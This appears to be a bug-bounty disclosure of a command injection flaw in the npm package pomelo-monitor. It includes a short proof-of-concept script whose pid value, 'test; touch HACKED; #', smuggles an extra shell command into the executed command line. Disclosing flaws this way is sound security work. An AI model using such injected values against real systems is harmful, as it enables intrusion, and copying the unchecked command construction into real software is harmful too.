 # Overview

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/halfblood369/monitor/blob/master/lib/processMonitor.js#L26).

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var monitor = require("pomelo-monitor");
var param = { pid: "test; touch HACKED; #", serverId: "node-1" };
monitor.psmonitor.getPsInfo(param, function (err, data) {});
```

2. Check that there aren't any files called `HACKED`.
3. Execute the following commands in another terminal:

```bash
npm i pomelo-monitor # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files - now `HACKED` has been created.
